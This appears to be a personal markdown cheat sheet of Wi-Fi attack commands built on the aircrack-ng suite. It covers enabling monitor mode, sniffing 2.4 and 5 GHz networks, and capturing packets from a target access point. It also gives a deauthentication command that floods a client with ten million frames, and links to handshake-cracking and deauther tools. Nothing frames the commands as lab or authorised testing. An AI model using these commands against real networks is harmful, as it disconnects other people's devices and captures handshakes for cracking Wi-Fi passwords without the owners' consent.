 # WI-FI, wifi

## Enable monitor wifi mode

- `sudo ip link set wlp0s20f0u3 down`

- `sudo airmon-ng check kill`

- `sudo iw dev wlp0s20f0u3 set type monitor`
- `sudo ip link set wlp0s20f0u3 up`

### switch channel

- `sudo airmon-ng start wlp0s20f0u3 3`

## Packet sniffing

- `sudo airodump-ng wlp0s20f0u3` - sniff 2.4Ghz networks
- `sudo airodump-ng --band a wlp0s20f0u3` - sniff 5Ghz networks
- `sudo airodump-ng --band abg wlp0s20f0u3` - sniff both 2.4Ghz and 5Ghz networks

- `sudo airodump-ng --bssid EE:EE:EE:BB:BB:BB --channel 2 --write sniffed-packets wlanmon0` - save packets to a file

## Attacks

Disconnect a device from the network:

- `sudo aireplay-ng --deauth 10000000 -a EE:EE:EE:BB:BB:BB -c CC:CC:CC:AA:AA:AA wlanmon0`

- [handshake cracker](https://github.com/semeion/handshake-cracker)

## more tools

- [kismet](https://github.com/kismetwireless/kismet)
- [airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon)
- [deauth](https://github.com/SpacehuhnTech/esp8266_deauther)
- [deauth-v3](https://github.com/SpacehuhnTech/esp8266_deauther/tree/v3)
